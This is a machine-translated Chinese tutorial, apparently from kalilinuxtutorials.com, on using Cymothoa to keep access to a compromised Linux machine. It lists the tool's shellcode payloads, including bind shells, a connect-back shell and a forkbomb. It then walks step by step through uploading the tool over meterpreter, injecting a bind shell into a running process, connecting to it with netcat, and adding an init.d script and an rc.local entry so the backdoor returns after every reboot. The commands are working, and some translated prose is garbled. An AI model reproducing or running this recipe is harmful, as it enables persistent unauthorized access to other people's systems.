# 使用 Cymothoa 维护对 Linux 机器的访问-利用后

> 原文：<https://kalilinuxtutorials.com/cymothoa/>

Cymothoa 是一个后开发工具。它可用于维护对被利用系统的访问。Cymothoa 向系统中正在运行的进程注入各种外壳代码。几乎所有的 nix 系统大多数的 Linux 变种都可以用 cymothoa 做后门。

Cymothoa 使用 nix 系统中的 ptrace 库来评估正在运行的进程并注入外壳代码。这个工具最大的优点是我们不需要为后门创建一个单独的进程。当一个进程自己运行时，我们可以感染一个进程并启动一个后门。比方说，如果我们开发了一个 web 服务器，他肯定 apache2 或 httpd 或 nginx 或其他 web 服务器程序会在启动时打开。所以我们尝试将 cymothoa 注入到这样的服务守护进程中&在引导期间自动启动它。让我们来看看它的运行情况，但是首先，了解一下 cymothoa

首页:[http://cymothoa.sourceforge.net/](http://cymothoa.sourceforge.net/)

## **选项**

```
Syntax: cymothoa -p <pid> -s <shellcode_number> [options]
```

```
Main options:
	-p	process pid
	-s	shellcode number
	-l	memory region name for shellcode injection (default /lib/ld)
	  	search for "r-xp" permissions, see /proc/pid/maps...
	-m	memory region name for persistent memory (default /lib/ld)
	  	search for "rw-p" permissions, see /proc/pid/maps...
	-h	print this help screen
	-S	list available shellcodes

Injection options (overwrite payload flags):
	-f	fork parent process
	-F	don't fork parent process
	-b	create payload thread (probably you need also -F)
	-B	don't create payload thread
	-w	pass persistent memory address
	-W	don't pass persistent memory address
	-a	use alarm scheduler
	-A	don't use alarm scheduler
	-t	use setitimer scheduler
	-T	don't use setitimer scheduler

Payload arguments:
	-j	set timer (seconds)
	-k	set timer (microseconds)
	-x	set the IP
	-y	set the port number
	-r	set the port number 2
	-z	set the username (4 bytes)
	-o	set the password (8 bytes)
	-c	set the script code (ex: "#!/bin/sh\nls; exit 0")
	  	escape codes will not be interpreted...
Payloads

0 - bind /bin/sh to the provided port (requires -y)
1 - bind /bin/sh + fork() to the provided port (requires -y) - izik <izik@tty64.org>
2 - bind /bin/sh to tcp port with password authentication (requires -y -o)
3 - /bin/sh connect back (requires -x, -y)
4 - tcp socket proxy (requires -x -y -r) - Russell Sanford (xort@tty64.org)
5 - script execution (see the payload), creates a tmp file you must remove
6 - forks an HTTP Server on port tcp/8800 - http://xenomuta.tuxfamily.org/
7 - serial port busybox binding - phar@stonedcoder.org mdavis@ioactive.com
8 - forkbomb (just for fun...) - Kris Katterjohn
9 - open cd-rom loop (follows /dev/cdrom symlink) - izik@tty64.org
10 - audio (knock knock knock) via /dev/dsp - Cody Tubbs (pigspigs@yahoo.com)
11 - POC alarm() scheduled shellcode
12 - POC setitimer() scheduled shellcode
13 - alarm() backdoor (requires -j -y) bind port, fork on accept
14 - setitimer() tail follow (requires -k -x -y) send data via upd
```

### **实验室:向被入侵的 Linux 系统注入后门**

**场景**:我们有一个运行 Kali linux 的攻击者系统，IP 为 192.168.0.103，一个目标 linux 系统(metasploitable 2.0)，IP 为 192.168.0.102。受害者被剥削后故事继续。我已经找到了一个和受害者有关的弹壳。

我将简要解释这一程序。看一下下图。

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa-flow/)

Post Exploitation & Backdooring Procedure with cymothoa.

对，就是这个算法。我希望你理解这个程序，而不只是照抄步骤。我们首先利用这个系统进入它。然后剩下的就是维护访问权限了。

然后我们可以尝试将现有的 cymothoa 二进制文件(/usr/bin/cymothoa 或/usr/share/cymothoa)上传到目标&尝试执行它。但对我来说一直都失败了。如果是这样，请继续下面的步骤 3。如果没有，不要担心，我们可以访问系统，我们将下载一个新的副本并安装它。

安装后，尝试执行它。如果 cymothoa 横幅出现，则安装成功。在这之后，我们尝试感染一个正在运行的进程&看看我们是否能得到一个连接。这多半会成功。如果它不只是尝试用另一个进程。但问题是这只能持续到现在，而不能持续到未来。

也就是说，如果进程终止或系统重启，我们将无法运行后门。为此，我们创建了一个 shell 脚本，并在受害者中编辑了一些引导时配置&使得每次系统启动或重启时都有一个进程被感染。因此，我们可以有一个持久的后门。

说够了，让我们攻击吧！

**第一步:下载 Cymothoa &上传给受害者**

使用 Kali Linux 攻击者机器中的 web 浏览器从下面的链接下载最新版本。

下载链接:[http://SourceForge . net/projects/cymothoa/files/cymothoa-1-alpha/](http://sourceforge.net/projects/cymothoa/files/cymothoa-1-alpha/)

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa11/)

Cymothoa being Downloaded in Kali Linux Attacker machine.

默认位置是/root/Downloads。记住这个。

现在，我有一个正在运行的 meterpreter 会话(如何获得访问权限，请参阅开发部分)。).将下载的档案上传给受害者。你也可以选择直接下载给受害者(如果你知道的话)。

```
meterpreter > upload Downloads/cymothoa<press tab> <space> /root/
meterpreter > shell
command: tar -xvf cymothoa< Enter full name here, Pressing tab key Doesen't work>
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa1/)

Uploading the archive to the victim.

注意:每次从 meterpreter 进入 shell 时，shell 的功能都是有限的。Tab 键不起作用& vim 不返回显示。如果我们在 vim 或 nano 中打开某个东西，它就会崩溃。

**第二步:** **安装 Cymothoa &执行。**

当我们在壳里的时候。将目录更改为我们上传归档文件的位置，并授予执行权限。然后执行“Makefile”。

```
command cd <location> 
command: chmod +x cymothoa<full name> -R 
command: ./Makefile
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa2/)

Change permissions

现在尝试执行该文件。记得在你上传档案的目录中。

```
Command: ./cymothoa
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa3/)

Cymothoa Installed

**第三步:感染一个正在运行的进程。**

现在找到系统中正在运行的进程&记下进程 id (pid)。

```
command: ps -e
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa4/)

Running Processes in the victim

现在用 cymothoa 感染这个过程。

```
syntax: ./cymothoa -p <pid> -s <shellcode number> -y <listening port>
```

```
command: ./cymothoa -p 5476 -s 1 -y 100
```

*提示:记得检查监听端口(-y 选项)是否已经被使用。*

现在检查端口是否打开

```
command: netstat -l | grep 100<your port here>
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa5/)

Infecting a process with Cymothoa

**步骤 4** : **从攻击者机器尝试 netcat 连接。**

在 Kali Linux 攻击者系统中打开一个新的终端&启动一个 netcat 连接到我们指定的端口

```
command: nc 192.168.0.102 100 <give your victim ip & port>
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa12/)

Netcat Connection to Cymothoa Backdoor

你有…！

**第五步** : **准备脚本，上传&设置执行。**

这是最难的部分。如果你有任何关于 shell 脚本的想法，你可以理解。或者试着学习一些。反正剧本很简单。它首先提取服务或守护进程的 pid。检查它是否是一个数字。

有时一个进程会有子进程。因此将有不止一个可用的 PID。在这种情况下，有必要从 pid 列表中单独提取一个 PID。然后脚本将 pid 分配给一个变量(这里说 q)。然后使用变量 q 的值作为“-p”选项的值来执行 cymothoa。这是剧本。

```
#!/bin/bash
p=`cat /var/run/crond.pid`
#extracts the pid. Here replace the last with a process of your desire.
#example: p=`cat /var/run/apache2.pid`.
#Remember the chracter before cat & after pid is a backtick & not an inverted comma.
if [ "$p" -eq "$p" ] 2>/dev/null; then #checks whether it's a number or not.
q=$p
else
q=`(echo $p | awk '{print $2}')` #takes the next row which will be a number. Here also it's a backtick
fi
echo $q
exec /cymothoa-1-alpha/cymothoa -p $q -s 1 -y 100 # make sure to give absolute path of cymothoa in the victim.
exit
```

需要注意的事项:

*   将命令的输出分配给变量时，会使用反勾号。
*   每当需要时，总是给出绝对和完整的路径。
*   你可以选择任何服务。像 apache2/crond/vsftpd/mysqld 等可能在引导时启动的服务是合适的。
*   Pid 位置是标准的 unix 系统是“/var/run/process.pid”。
*   确保监听端口(-y 选项)不会被其他服务使用。如果是 web 服务器，给端口 80 将是一个坏主意。

将脚本复制到 kali linux 机器中的一个文件中。相应地编辑并保存它。

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa6/)

The Script

通过按 Cntrl+c &返回到 meterpreter shell，将脚本上传到/etc/init.d

```
meterpreter> upload cym.sh /etc/init.d/ <replace cym.sh by your filename>
```

通过给予 shell command & change 权限，再次进入 shell。

```
meterpreter> shell 
chmod +x /etc/init.d/cym.sh <replace by your file>
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa7/)

Uploading the Script

现在是最重要的部分。我们必须让脚本在启动时运行。这很简单，只需在/etc/rc.local 中添加一个条目。

此外，如果我们对文件(rc.local)进行 cat，那么在末尾会有一条语句“exit 0”。在此之后附加的任何语句都不会被执行。所以我们必须删除最后一行，添加新行，然后添加旧的退出行。

```
command: sed -i '$d' /etc/rc.local 
command: echo "sh /etc/init.d/cym.sh" >> /etc/rc.local 
command: echo "exit 0" >> /etc/rc.local
```

通过以下方式确保

```
command: tail /etc/rc.local
```

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa9/)

Editing the Configuration

[](http://kalilinuxtutorials.com/ma/cymothoa/attachment/cymothoa10/)

Editing the Configuration

注意:这里也给出了写入 rc.local 文件时的绝对路径。

准备就绪..！

现在，在 shell 中，发出

```
command: /etc/init.d/rc.local start
```

如果每一步都是对的，你就成功了。然后在 shell 中尝试 netstat 看看端口是否在监听。如果允许，重新启动机器，以便 shell & meterpreter 会话终止。一段时间后给受害者开网猫。你会惊讶的。

唷！这是很长的时间，但你会得到很好的结果。我不得不为这个过程中的每一步做了大量的研究&当然希望得到你的反馈。试试这个&请订阅、评论和关注这个博客。

*参考文献:*

https://nixos.org/nix/

[http://www . cyber Citi . biz/FAQ/UNIX-Linux-BSD-apple OSX-bash-assign-variable-command-output/](http://www.cyberciti.biz/faq/unix-linux-bsd-appleosx-bash-assign-variable-command-output/)

[http://begin Linux . com/server/Ubuntu/how-to-run-scripts-at-Ubuntu-startup](http://beginlinux.com/server/ubuntu/how-to-run-scripts-at-ubuntu-startup)

[http://scx 020 c07c . blogspot . in/2012/09/back dooring-using-cymothoa . html](http://scx020c07c.blogspot.in/2012/09/backdooring-using-cymothoa.html)

[http://stack overflow . com/questions/806906/how-do-I-test-if-a-variable-is-a-number-in-bash](http://stackoverflow.com/questions/806906/how-do-i-test-if-a-variable-is-a-number-in-bash)